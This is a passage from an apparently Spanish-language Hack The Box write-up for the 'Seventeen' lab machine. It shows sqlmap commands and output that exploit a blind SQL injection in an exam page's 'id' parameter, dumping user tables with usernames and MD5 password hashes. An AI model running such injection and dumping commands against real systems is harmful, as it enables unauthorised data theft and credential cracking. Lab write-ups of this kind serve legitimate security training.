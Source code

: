```shell
```
Tambien obtuvimos datos de otra base de datos.

```shell
do you want to use common password suffixes? (slow!) [y/N] 
[22:35:16] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[22:35:16] [INFO] starting 6 processes 
[22:35:26] [WARNING] no clear password(s) found                                                                                                                                         
Database: erms_db
Table: users
[3 entries]
+----+------+-----------------------------------+----------+----------------------------------+------------------+--------------+---------------------+------------+---------------------+
| id | type | avatar                            | lastname | password                         | username         | firstname    | date_added          | last_login | date_updated        |
+----+------+-----------------------------------+----------+----------------------------------+------------------+--------------+---------------------+------------+---------------------+
| 1  | 1    | ../oldmanagement/files/avatar.png | Admin    | fc8ec7b43523e186a27f46957818391c | admin            | Adminstrator | 2021-01-20 14:02:37 | NULL       | 2022-02-24 22:00:15 |
| 6  | 2    | ../oldmanagement/files/avatar.png | Anthony  | 48bb86d036bb993dfdcf7fefdc60cc06 | UndetectableMark | Mark         | 2021-09-30 16:34:02 | NULL       | 2022-05-10 08:21:39 |
| 7  | 2    | ../oldmanagement/files/avatar.png | Smith    | 184fe92824bea12486ae9a56050228ee | Stev1992         | Steven       | 2022-02-22 21:05:07 | NULL       | 2022-02-24 22:00:24 |
+----+------+-----------------------------------+----------+----------------------------------+------------------+--------------+---------------------+------------+---------------------+
```
```shell
gu3ro@parrot:/home/gu3ro/Desktop/guero/htb/Seventeen$ sqlmap -D db_sfms -T student -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch --threads 10 --dump
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.6.12#stable}
|_ -| . ["]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 22:56:20 /2023-05-01/

[22:56:21] [INFO] resuming back-end DBMS 'mysql' 
[22:56:21] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=9e62aea64d9...7ec5f5bf24'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: p=take_exam&id=1' AND 1790=1790 AND 'kbHu'='kbHu
---
<SNIP>
[4 entries]
+---------+----+--------+---------+----------+----------------------------------------------------+-----------+
| stud_id | yr | gender | stud_no | lastname | password                                           | firstname |
+---------+----+--------+---------+----------+----------------------------------------------------+-----------+
| 1       | 1A | Male   | 12345   | Smith    | 1a40620f9a4ed6cb8d81a1d365559233                   | John      |
```